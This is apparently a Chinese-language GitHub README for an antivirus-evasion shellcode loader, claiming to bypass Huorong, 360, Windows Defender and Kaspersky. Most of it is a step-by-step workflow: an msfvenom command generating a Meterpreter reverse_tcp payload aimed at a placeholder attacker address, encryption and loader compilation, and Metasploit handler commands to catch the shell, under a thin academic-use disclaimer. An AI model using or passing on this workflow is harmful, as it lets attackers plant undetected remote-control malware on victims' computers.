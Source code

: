 # Antivirus_killer
免杀主流防病毒软件<br />
测试于2024年9月19日加载器2024_9_19(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基<br />
该项目仅供学术交流参考，请大家合法学习和使用项目
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线
